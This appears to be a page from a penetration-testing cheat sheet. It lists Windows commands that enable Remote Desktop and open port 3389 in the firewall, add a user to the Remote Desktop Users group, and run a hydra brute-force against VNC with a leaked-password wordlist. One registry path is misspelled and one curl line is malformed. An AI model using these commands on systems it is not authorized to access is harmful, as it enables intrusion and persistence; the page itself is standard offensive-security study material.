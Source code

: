 ### RDP - TCP 3389

If you have credentials, you can enable the RDP service then log in:
```powershell
# METHOD 1
$ netsh firewall set service RemoteDesktop enable

# METHOD 2
$ reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# METHOD 3
$ reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f

# METHOD 4
$ sc config TermService start= auto
$ net start Termservice
$ netsh.exe firewall add portopening TCP 3389 "Remote Desktop"

# METHOD 5
$ netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389]" enable=yes 
profile=private,domain localport=3389 protocol=tcp

# METHOD 6
$ netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [UDP 3389]" enable=yes 
profile=private,domain localport=3389 protocol=udp

# METHOD 7 - add user to RDP group
$ net user $username $password /add
$ net localgroup "Remote Desktop Users" $username /add
```

### RealVNC and VNC - TCP 5800, 5900

RealVNC - VNC over HTTP:
```bash
$ curl -L 10.11.1.227 http://[target]:5800
```

VNC login brute-force:
```bash
$ hydra -s 5900 -P /usr/share/wordlists/rockyou.txt [target] vnc
```

